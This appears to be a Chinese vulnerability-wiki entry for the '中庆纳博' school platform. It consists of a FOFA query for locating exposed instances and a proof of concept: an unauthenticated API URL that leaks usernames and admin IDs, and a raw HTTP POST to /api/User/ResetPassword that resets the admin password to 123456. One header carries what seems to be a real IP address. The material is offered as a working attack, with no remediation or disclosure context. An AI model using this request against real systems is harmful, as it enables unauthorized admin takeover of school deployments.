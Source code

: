 <languages />

FOFA
----

    "中庆纳博"

POC
---

<div lang="chinese" dir="ltr" class="mw-content-ltr">
訪問此鏈接，可以看見洩露用戶名，以及管理id。然後可以通過 用戶名重置密碼為默認密碼123456

</div>
    http://xxxxxx/api/TeacherQuery/SearchTeacherInSiteWithPagerRecords

    POST /api/User/ResetPassword HTTP/1.1
    Host: xxxxxxxxxx
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
    Accept: application/json, text/plain, /
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json;charset=utf-8
    Content-Length: 23
    Origin: http://117.36.154.34:8010
    DNT: 1
    Connection: close
    Referer: http://xxxxxxxx/default/admin/user/index{"loginName":"admin"}